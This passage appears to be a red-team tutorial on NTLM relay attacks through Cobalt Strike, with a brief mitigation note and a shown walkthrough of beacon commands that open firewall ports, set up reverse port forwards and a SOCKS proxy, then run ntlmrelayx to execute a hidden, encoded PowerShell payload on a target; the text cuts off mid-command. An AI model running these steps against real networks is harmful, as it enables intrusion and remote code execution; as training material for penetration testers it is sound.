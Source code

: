 In an NTLM relay attack, an attacker is able to intercept or capture this authentication traffic and effectively allows them to impersonate the client against the same, or another service.  For instance, a client attempts to connect to Service A, but the attacker intercepts the authentication traffic and uses it to connect to Service B as though they were the client.

- Windows Server 2022 domain controllers enable "Network Server: Digitally sign communications (always)" to Enabled by default, making this style of attack unviable.

During an on-premise penetration test, NTLM relaying with tools like Responder and ntlmrelayx is quite trivial.  However, it's a different story with this style of red team assessment, not least because we can't typically run Python tools on Windows.  Port 445 is always bound and in use by Windows - even local admins can't arbitrarily redirect traffic bound to this port or bind another tool to this port.

It's still possible to do with Cobalt Strike, but requires the use of multiple capabilities simultaneously.

1. A driver to redirect traffic destined for port 445 to another port (e.g. 8445) that we can bind to.
2. A reverse port forward on the port the SMB traffic is being redirected to.  This will tunnel the SMB traffic over the C2 channel to our Team Server.
3. The tool of choice (ntlmrelayx) will be listening for SMB traffic on the Team Server.
4. A SOCKS proxy is to allow ntlmrelayx to send traffic back into the target network.

The flow looks something like this:

![overview](https://github.com/user-attachments/assets/0b81cdf6-6b37-495d-9117-6e3656582161)

First, ensure all the pre-requisites are in place before launching the actual attack.  Obtain a SYSTEM beacon on the machine you will capture the SMB traffic on.

Next, allow those ports inbound on the Windows firewall.

    beacon> powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
    beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

Then start two reverse port forwards - one for the SMB capture, the other for a PowerShell download cradle.

    beacon> rportfwd 8445 localhost 445
    [+] started reverse port forward on 8445 to localhost:445
    
    beacon> rportfwd 8080 localhost 80
    [+] started reverse port forward on 8080 to localhost:80

The final part of the setup is to start a SOCKS proxy that ntlmrelayx can use to send relay responses back into the network.

    beacon> socks 1080
    [+] started SOCKS4a server on: 1080
    
Now we can start ntlmrelayx.py listening for incoming connections on the Team Server.  The -c parameter allows us to execute an arbitrary command on the target after authentication has succeeded.

    attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc 

